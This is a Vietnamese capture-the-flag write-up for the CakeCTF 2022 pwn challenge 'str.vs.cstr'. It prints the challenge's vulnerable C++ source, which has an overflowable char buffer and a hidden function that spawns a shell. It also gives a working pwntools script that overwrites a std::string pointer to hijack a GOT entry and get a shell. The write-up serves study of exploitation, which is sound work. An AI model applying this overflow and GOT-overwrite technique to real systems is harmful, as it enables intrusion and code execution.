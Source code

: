 # 🎂str.vs.cstr (Pwn)

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Cheksec </p></figcaption></figure>

Bài này đã đưa sẵn mã nguồn để ta phân tích

{% code title="main.cpp" lineNumbers="true" %}
```c
#include <array>
#include <iostream>

struct Test {
  Test() { std::fill(_c_str, _c_str + 0x20, 0); }
  char* c_str() { return _c_str; }
  std::string& str() { return _str; }

private:
  __attribute__((used))
  void call_me() {
    std::system("/bin/sh");
  }

  char _c_str[0x20];
  std::string _str;
};

int main() {
  Test test;

  std::setbuf(stdin, NULL);
  std::setbuf(stdout, NULL);

  std::cout << "1. set c_str" << std::endl
            << "2. get c_str" << std::endl
            << "3. set str" << std::endl
            << "4. get str" << std::endl;

  while (std::cin.good()) {
    int choice = 0;
    std::cout << "choice: ";
    std::cin >> choice;

    switch (choice) {
      case 1: // set c_str
        std::cout << "c_str: ";
        std::cin >> test.c_str();
        break;

      case 2: // get c_str
        std::cout << "c_str: " << test.c_str() << std::endl;
        break;

      case 3: // set str
        std::cout << "str: ";
        std::cin >> test.str();
        break;

      case 4: // get str
        std::cout << "str: " << test.str() << std::endl;
        break;

      default: // otherwise exit
        std::cout << "bye!" << std::endl;
        return 0;
    }
  }
  
  return 1;
}

```
{% endcode %}

Bài này khá dễ =]].  Nhìn qua ta thấy chỉ cần ghi đè \_str thành một địa chỉ nào đó( buffer overflow ở case 1 ) rồi ghi giá trị ở case 3.

<figure><img src="../../.gitbook/assets/2022-09-06-211409_402x203_scrot (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2022-09-06-211449_1870x944_scrot (1).png" alt=""><figcaption><p>ở đây mình ghi đè thành 0x4242424242424242 nên bị seg fault.</p></figcaption></figure>

Nhưng khoan, rút cuộc C++ string hoạt động như thế nào ? Sao lại chỉ cần ghi đè mỗi 8 byte đầu là được :thinking:

Sau nhiều lần search google và debug mình thấy...

<figure><img src="../../.gitbook/assets/2022-09-06-213404_666x524_scrot.png" alt=""><figcaption></figcaption></figure>

... 8 byte đầu sẽ là con trỏ đến mảng kí tự, 8 byte sau là size, 8 byte tiếp nữa là capacity ( đọc qua có vẻ là kích thước được cấp phát).

&#x20;Tiếp tục vào vấn đề, giờ mình sẽ chọn ghi đè char\_ostream\_got trỏ về call\_me.

{% code title="solve.py" lineNumbers="true" %}
```python
from pwn import *
from time import sleep
offset=0x20
call_me=0x00000000004016de
char_ostream_got=0x404048
e=ELF("./chall")
p=remote("pwn1.2022.cakectf.com",9003)
p.sendline(b"1")
sleep(1)
p.sendline(b"A"*offset+p64(char_ostream_got))
sleep(1)
p.sendline(b"3")
sleep(1)
p.sendline(p64(call_me))
p.interactive()

```
{% endcode %}

<figure><img src="../../.gitbook/assets/2022-09-06-214126_690x417_scrot.png" alt=""><figcaption></figcaption></figure>

Flag `CakeCTF{HW1: Remove "call_me" and solve it / HW2: Set PIE+RELRO and solve it}`

Hmm, có lẽ lúc nào đó mình sẽ thử làm như flag này nói :thinking:.

Vài trang để tìm hiểu về C++ string:

{% embed url="https://gcc.gnu.org/onlinedocs/gcc-12.2.0/libstdc++/api/a05666.html" %}

{% embed url="https://medium.com/obscure-system/understanding-storage-of-strings-in-c-part-1-stack-or-heap-98b15cded7ce" %}
